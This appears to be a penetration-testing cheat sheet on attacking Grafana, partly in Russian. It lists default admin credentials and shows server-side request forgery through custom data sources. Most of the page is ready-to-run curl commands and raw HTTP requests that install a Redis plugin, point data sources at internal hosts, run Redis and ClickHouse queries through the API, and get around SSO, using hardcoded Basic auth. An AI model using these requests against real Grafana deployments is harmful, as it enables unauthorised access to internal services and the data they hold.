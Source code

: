 # Grafana

### Default Creds

`admin:admin`

`admin:prom-operator`

`admin:openbmp`

### SSRF

Присутствует возможность создать свой data source и обращаться к любому ресурсу по http/tcp, который был указан в качестве источника и получать ответ

**PoC:**

1. Развернем тестовую среду из 2 контейнеров: Grafana и Nginx.

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

2. создадим data source и выберем тип Prometheus, потому что он отправляет запросы по http. В качестве источника выберем nginx

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

3. Отправим запрос к api grafana `/api/datasources`, чтобы получить id нашего data soruce

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

4. с помощью `curl -u admin:admin -s http://10.172.1.22:3000/api/datasources/proxy/4` отправим запрос на установленный ресурс и получим ответ

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Мы можем отправлять запросы от лица grafana к любым ресурсам и по любым протоколам, в зависимости от datasources, которые мы найдем



### Send requests to grafana-clickhouse-datasource via api

If Grafana's ui is behind SSO unlike api

```json
{
  "queries": [
    {
      "refId": "A",
      "datasource": {
        "type": "grafana-clickhouse-datasource",
        "uid": "ce4qblsezmupsf"
      },
      "editorType": "sql",
      "queryType": "table",
      "rawSql": "SELECT * FROM system.databases",
      "format": 1,
      "meta": {
        "builderOptions": {
          "database": "",
          "table": "",
          "queryType": "table",
          "columns": [],
          "mode": "list",
          "limit": 1000
        },
        "timezone": "Europe/Moscow"
      },
      "pluginVersion": "4.5.0",
      "datasourceId": 8
    }
  ]
}
```

### Create datasource

```bash
curl -s -u admin:prom-operator http://host:port/api/datasources/ -H "Content-Type: application/json"   -d '{
    "name":"redteam-test",
    "type":"alertmanager",
    "access":"proxy",
    "url":"http://targetHost:targetPort"
  }'

```

### SSRF for **redis** datasource

In this example without auth

Install

```http
POST /api/plugins/redis-datasource/install HTTP/1.1
Host: grafana-host:3000
Content-Length: 19
content-type: application/json
Authorization: Basic YWRtaW46cHJvbS1vcGVyYXRvcg==

{"version":"2.2.0"}
```

Create

```http
POST /api/datasources/ HTTP/1.1
Host: grafana-host:3000
Content-Length: 719
content-type: application/json
Authorization: Basic YWRtaW46cHJvbS1vcGVyYXRvcg==

{"name":"redis-datasource","type":"redis-datasource","typeLogoUrl":"public/plugins/redis-datasource/img/logo.svg","access":"proxy","url":"redis://redis-ip:6379","user":"","database":"","basicAuth":false,"basicAuthUser":"","withCredentials":false,"isDefault":true,"jsonData":{},"secureJsonFields":{},"version":1,"readOnly":false,"accessControl":{"alert.instances.external:read":true,"alert.instances.external:write":true,"alert.notifications.external:read":true,"alert.notifications.external:write":true,"alert.rules.external:read":true,"alert.rules.external:write":true,"datasources.id:read":true,"datasources:delete":true,"datasources:query":true,"datasources:read":true,"datasources:write":true},"apiVersion":""}
```

Execute commands

```http
POST /api/ds/query?ds_type=redis-datasource&requestId=explore_p34 HTTP/1.1
Host: grafana-host:3000
content-type: application/json
Authorization: Basic YWRtaW46cHJvbS1vcGVyYXRvcg==
Content-Length: 336

{"queries":[{"refId":"A","datasource":{"type":"redis-datasource","uid":"a7970ec5-1e24-4487-9f8b-630aac99b8ec"},"type":"cli","query":"keys *","command":"","keyName":"","field":"","filter":"","legend":"","value":"","path":"","cypher":"","datasourceId":4,"intervalMs":5000,"maxDataPoints":700}],"from":"1750785164811","to":"1750788764811"}
```
